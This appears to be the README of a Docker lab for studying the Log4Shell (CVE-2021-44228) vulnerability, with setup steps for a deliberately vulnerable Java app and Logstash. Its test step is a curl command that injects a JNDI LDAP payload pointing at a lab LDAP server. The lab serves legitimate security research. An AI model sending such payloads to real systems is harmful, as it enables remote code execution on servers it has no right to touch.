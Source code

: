 # CVE-2021-44228 Log3Shell Research Lab 🚧

A basic lab environment to test some of the public proof of concepts to trigger and learn more about [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) and expedite the time it takes to deploy multiple scenarios.

## Docker Deployment

### Clone Repo

```
git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```
### Create Local Socket Proxy

```
docker network create --gateway 192.168.55.1 --subnet 192.168.55.0/24 socket_proxy
```

### Run Docker Compose File

```
docker-compose -f docker-compose.yml up --build -d
```

### Check Docker Containers

```
docker ps

docker logs --follow ldap-server

docker logs --follow web-server
```

## Run Vulnerable Apps

* [BasicJar](#basicjar)
* [Logstash](#logstash)

## BasicJar
### Compile

**Dockerized**
```
cd vulnApp
docker run -it --rm -v "$(pwd)":/opt/maven -w /opt/maven maven mvn clean install
```

**Locally**
```
cd vulnApp
mvn -f pom.xml clean package -DskipTests
```

### Run Application

```
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar  com.log4jshell.App
```

## Logstash

## Run Test

Monitor for Logstash logs

```
docker logs --follow logstash
```

Run test
```
curl -H "content-type: application/json" -XPUT 'http://127.0.0.1:8080/tweets/me' -d '"${jndi:ldap://192.168.55.10:1389/CreateFile}"'
```

## References
* https://www.smarthomebeginner.com/traefik-docker-security-best-practices/#9_Use_a_Docker_Socket_Proxy